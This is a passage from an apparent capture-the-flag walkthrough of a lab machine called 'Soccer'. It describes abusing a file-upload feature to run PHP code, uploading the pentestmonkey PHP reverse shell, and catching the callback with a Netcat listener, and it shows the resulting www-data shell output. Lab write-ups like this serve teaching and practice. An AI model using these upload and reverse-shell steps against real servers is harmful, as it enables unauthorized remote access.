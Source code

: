 ![Logged In](/assets/images/2023/01/Soccer/LoggedIn.png "Logged In")

The application allowed uploading files. My first attempts were rejected because I could not write to the webroot. I looked in the '/tiny' folder and saw an '/upload' folder. I tried to upload a PHP file there.

![Uploaded File](/assets/images/2023/01/Soccer/UploadedFile.png "Uploaded File")

Once the file was uploaded, I clicked on the 'Open' link to view the file. It opened and printed only 'IN', which confirmed that the code was executed.

I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), started a Netcat listener, and opened the uploaded file.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.194] 52404
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 23:51:48 up 11:57,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```
